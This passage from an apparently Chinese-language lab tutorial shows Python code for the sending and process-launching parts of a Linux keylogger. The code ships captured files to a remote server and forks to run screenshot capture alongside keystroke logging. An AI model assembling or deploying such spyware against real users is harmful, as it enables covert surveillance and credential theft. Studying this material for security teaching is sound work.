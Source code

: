 将每一次的数据发送抽象成一次网络任务，发送消息头部就相当于执行了一次网络任务。

```
class NetworkTaskManager(object):

    def __init__(self, server_instance, file_type, file_name):
        self.server_instance = server_instance
        self.file_type = file_type
        self.file_name = file_name
        # 发送消息头， 在这里是为了发送文件名和文件类型
        self.send_message_header()

    def send_message_header(self):
        # 发送消息头部
        header_message = {
            "file_name": self.file_name,
            "file_type": self.file_type
        }
        # 建立一个任务，然后发送相应的内容
        task = BasicNetworkTask(self.server_instance, json.dumps(header_message))
        task.run()

    def send_content(self, content):
        # 发送文件的正文
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        return "success"

    def send_stop_message(self):
        # 发送结束标志
        # 建立一个任务，然后发送相应的内容,告诉数据已经发送完毕
        content = "\r\nover\r\n"
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        # 记得释放这个tcp的链接
        self.server_instance.destroy()

```

#### 5.2.6 运行程序

上述我们实现了键盘记录、截图功能、数据发送功能。根据 [4.2](https://www.shiyanlou.com/courses/853/labs/3093/document#jump2)，在这里讲述下 Python 的多进程编程，将上述功能组合在一起实现并发运行。 Python 下

的多进程编程常用的库是 [muptiprocessing](http://python.jobbole.com/82045/),`multiprocessing`库提供了非常强大的功能，支持子进程、通讯和共享数据。 但因本程序限制在`linux`环境下，

所以使用更为轻量的`os.fork`来创建多进程程序。

```
def main(key_name, pic_name, key_type='txt', pic_type='png'):
    """
       因为捕捉键盘记录 和屏幕截图 是两个独立的任务，
       所以在这里fork产生一个新的进程来执行屏幕截图
    """
    f = os.fork()
    if f == 0:
        # 这里是子进程, 会调用外部程序
        screen_shot(pic_name, pic_type)
    else:
        # 父进程
        keylogger_func(key_name, key_type)

```
